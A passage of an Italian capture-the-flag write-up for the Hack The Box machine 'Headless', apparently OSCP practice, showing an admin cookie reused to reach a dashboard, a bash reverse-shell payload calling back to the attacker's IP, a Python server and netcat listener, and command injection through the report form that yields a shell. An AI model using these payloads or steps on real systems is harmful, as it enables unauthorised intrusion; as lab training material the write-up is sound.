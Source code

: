 ```bash
┌──(root㉿kali)-[/home/kali]
└─# echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Visitiamo la pagina `dashboard` sostituendo il valore del cookie.
Abbiamo cosi acceso alla dashboard dell'admin

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/haedless3.png)

Da qui dobbiamo valutare quali opzioni abbiamo. Sembra che il campo della data richieda l'input dell'utente, che è dove di solito mi piace guardare. Ora che siamo dietro una pagina protetta possiamo provare a procurarci una shell? Proviamoci. Creo un file chiamato payload.sh con quanto segue al suo interno.

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# cat payload.sh
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.20/1111 0>&1;'
```

tiriamo su un server python per far scaricare il nostro payload.

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

ci mettiamo anche in ascolto con nc per ricevere la shell.

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# nc -nlvp 1111
listening on [any] 1111 ...
```

Torna su /dashboard e premiamo "Genera report" e catturiamo la richiesta con Burp. Vogliamo inserire un comando che recupererà il file payload che abbiamo creato e lo eseguirà. Assicurandoci di avere il cookie di amministrazione elencato nel campo dei cookie.
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/haedless4.png)

il payload viene scaricato 

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.8 - - [06/Jun/2024 23:19:03] "GET /payload.sh HTTP/1.1" 200 -
```

ed eseguito dandoci la nostra shell.

```bash
┌──(root㉿kali)-[/home/kali/htb/haedless]
└─# nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.8] 41540
bash: cannot set terminal process group (1378): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)

```
